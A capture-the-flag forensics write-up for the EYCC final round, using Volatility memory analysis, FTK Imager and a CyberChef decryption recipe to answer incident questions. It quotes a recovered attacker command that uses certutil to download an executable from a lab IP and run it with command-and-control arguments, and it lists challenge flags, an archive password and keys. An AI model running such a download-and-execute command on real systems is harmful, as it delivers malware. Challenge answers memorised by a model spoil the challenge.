Hey!! This write-up covers the _Egyptian Youth Cybersecurity Challenge (EYCC)_ final round's forensics challenges. And it's worth mentioning that I cleared all DFIR challs and got first blood in them all too, and my team **Cyb3r_Ph4nt0ms** managed to secure first place :>



Let's get started!

---

# First Challenge: Silent Access



### Q1: What is the PID of the suspicious process observed on the victim's machine?

First thing I did was get an overview of everything running with `windows.pslist`:



Most of the processes were legitimate, but I noticed that `explorer.exe` was launched then `cmd.exe` and then `PatchUpdater.exe`, which was a weird process name and was the only non-legitimate process.

**Answer:** `3052`

### Q2: What is the full command typed by the insider to download that malicious executable?

I used the `windows.cmdline` plugin with the PID of `cmd.exe`:



And there it was, the insider's whole move laid out in one line:

```Command
cmd.exe /k "cd /d C:\Windows\Temp & certutil -urlcache -f http://192.168.6.133:8888/PatchUpdater.exe PatchUpdater.exe & .\PatchUpdater.exe --server 192.168.6.133 --port 8080"
```

cd into `C:\Windows\Temp`, grab a file from an attacker IP, then run it straight away with C2 details as arguments.

**Answer:** `cmd.exe /k "cd /d C:\Windows\Temp & certutil -urlcache -f http://192.168.6.133:8888/PatchUpdater.exe PatchUpdater.exe & .\PatchUpdater.exe --server 192.168.6.133 --port 8080"`

### Q3: What legitimate Windows utility was abused to download the suspicious executable?

Looking at that command line again, the download itself wasn't done with anything exotic — it was done with `certutil`, a built-in Windows binary meant for managing certificates, being abused via its `-urlcache` flag to fetch a remote file.

**Answer:** `certutil.exe`

### Q4: Mahmoud had an important archive that he protected by a special password. This password is left somewhere on his desktop. Can you get this password?

Time to see what's actually sitting on the desktop. I used `filescan` to hunt for the archive first:



Then I filtered for all files under `Desktop`:



And noticed this `.txt` file, then I dumped it using `windows.dumpfiles.Dumpfiles` and providing the file's address:



Opened it up and the password was sitting right there in plaintext:



**Answer:** `0mK3LALAW3LdT`

### Q5: What is the important data Mahmoud was trying to hide inside that archive?

Now that I had the password, I dumped the file we found earlier using the same plugin:



Then I just extracted the archive using the password we already found:

```shell
7z x 'file.0x7e1bc070.0xfa801b7c24c0.DataSectionObject.IMP-Financial Records.7z.dat' -p 0mK3LALAW3LdT
```

And a flag.txt file was extracted:



**Answer:** `EYCC{Y0U_Sh0uLD_M4sTeR_C3RviNG}`

### Final Flag



---

# Second Challenge: Simple Silent Access



This one's the easy version of the same box: no process hunting, no archive cracking, just "what did Mahmoud copy before he stepped away?" That's a clipboard question, so I used Volatility 2 instead this time.

I first used the `imageinfo` plugin to identify a profile to use:



Then I used the `clipboard` plugin to grab what was copied:



### Final Flag

```
EYCC{M3me0Ry_F0r3nSicS_M3tteR}
```

---

# Third Challenge: Operation GANBAR | Top Secret Fallines



We were given a `.ad1` disk image and a  [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=Drop_bytes\(0,28,false\)ChaCha\(%7B'option':'Hex','string':'699454dba59db5326a50554e384d9724afe3af189cf527436a787ae1b0110884'%7D,%7B'option':'Hex','string':'0000000000000000'%7D,0,'20','Raw','Hex'\)AES_Decrypt\(%7B'option':'Hex','string':'4b1efa1843905b96c4ba6efede7358fac8f600b11783af20740f815135f0df30'%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,16,'CTR','Hex','Raw',%7B'option':'Hex','string':'1a75e924dde3b82300bce9b1001d0d89'%7D,%7B'option':'Hex','string':''%7D,'Off'\)) for the used encryption algorithm. My first step was opening the file in `FTK Imager`, and I found an archive under `Desktop\encryption`: 

And since it was encrypted by a certain algorithm, I had to decrypt it first before extracting its contents, so I extracted the file and imported it in the [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=Drop_bytes\(0,28,false\)ChaCha\(%7B'option':'Hex','string':'699454dba59db5326a50554e384d9724afe3af189cf527436a787ae1b0110884'%7D,%7B'option':'Hex','string':'0000000000000000'%7D,0,'20','Raw','Hex'\)AES_Decrypt\(%7B'option':'Hex','string':'4b1efa1843905b96c4ba6efede7358fac8f600b11783af20740f815135f0df30'%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,16,'CTR','Hex','Raw',%7B'option':'Hex','string':'1a75e924dde3b82300bce9b1001d0d89'%7D,%7B'option':'Hex','string':''%7D,'Off'\)) provided by the author:



and saved the output as an archive, then extracted its contents, and found the first part of the flag:



After checking the rest of the files, I found that `Passwords.csv` was encrypted with the same algorithm used by GANBAR, so I imported it in CyberChef to check its contents:



and found a sussy link with a password provided for it, so I headed to the link and entered the provided password and downloaded a second archive: `imp_backup_stuff2.zip`, which contained the second part of the flag:



### Final Flag

```
EYCC{n1c3_y0u_h4v3_4_gr337_5k1ll_1n_Inv35t1g471On5;K3ep_G01ng!!}
```

---

And that was all!! Hope you enjoyed my writeup :>